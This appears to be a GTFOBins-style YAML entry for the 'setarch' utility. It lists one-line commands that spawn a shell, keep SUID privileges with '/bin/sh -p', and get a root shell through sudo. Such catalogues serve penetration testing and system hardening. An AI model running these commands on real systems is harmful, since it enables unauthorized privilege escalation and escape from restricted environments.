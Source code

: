 ```yaml
---
description: The `uname -m` command can be used in place of `arch` to obtain the architecture.
functions:
  shell:
    - code: setarch $(arch) /bin/sh
  suid:
    - code: ./setarch $(arch) /bin/sh -p
  sudo:
    - code: sudo setarch $(arch) /bin/sh
---
```

